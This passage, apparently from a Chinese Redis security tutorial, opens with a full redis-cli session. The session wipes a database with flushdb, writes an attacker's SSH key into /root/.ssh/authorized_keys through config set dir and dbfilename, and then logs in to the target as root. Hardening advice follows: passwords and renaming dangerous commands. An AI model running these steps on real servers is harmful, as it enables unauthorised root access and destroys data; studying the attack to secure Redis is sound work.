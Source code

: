 ```
db3:6379> flushdb
OK
# 将本机sshkey上传
db3:6379> set crackit "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDZPe7FYtSoNqVr9hMN3B+3QSbsgkGqzzyqlcSVLzhoRcl54DF+UagvdFR2noOyP63LEIiI/tg1rbiqLpJMcDrTRjpaU6OX3neqgEBCbVQM5lcudupeUakUlvcLIp+UQb0SunGpry5YCd76zo9Ur159T1Bx+6irObfDPzYYG9TvCZ6E8nFA9v4MlFWWK1JLl16Vn1urjEiqDRaQNGHKnK4xuGp9Lwh3LGYhasDtG30kkfYX8TqqIWuQvb88I1GSMJvVKJDsmJEClpxGuF4pist36Vi/ykH/9UfAmySdfIf/FQ6/+bpqBm269iBfo1kwgMz5Mu0P4A+PMsI5/umR6Qkn root@db2\n\n\n"
OK
# 修改默认配置并存盘，将导致存盘文件覆盖目标机上的authkey信息
db3:6379> config get rdbcompression
1) "rdbcompression"
2) "yes"
db3:6379> config set rdbcompression no
OK
db3:6379> config set dir "/root/.ssh/"
OK
db3:6379> config set dbfilename "authorized_keys"
OK
db3:6379> save
OK
db3:6379> exit
[root@db2 ~]# 
# 无密码以root登陆了被入侵的机器
[root@db2 ~]# ssh db3
Last login: Tue Jan 23 13:38:56 2018 from x.x.x.x
[root@db3 ~]# 
```

### 安全配置

Redis被设计成仅有可信环境下的可信用户才可以访问。因此需要进行适当的配置以减小安全风险

#### 密码机制

redis支持配置成通过密码访问。

服务端使用 redis-server --requirepass newpassword

客户端使用 redis-cli -a newpassword或使用auth子命令

密码要足够复杂，否则容易被暴力破解。主从之间的同步也要配置密码访问。auth子命令是明文传递的(redis协议)，不建议使用。

#### 伪装危险命令

redis中很多命令具有一定的副作用，例如keys */save/config/shutdown/flushall。很容易导致服务阻塞，数据丢失或配置异常。

因此提供了rename-command配置来对一些命令改名。例如：rename-command flushdb xxxxiiii

rename只支持配置文件修改，应该在第一次运行前就确定。

主从节点之间的配置要保持一致，rdb/aof备份文件保存的内容也要和配置一致。同时还需要修改对应第三方客户端库。

#### 其他
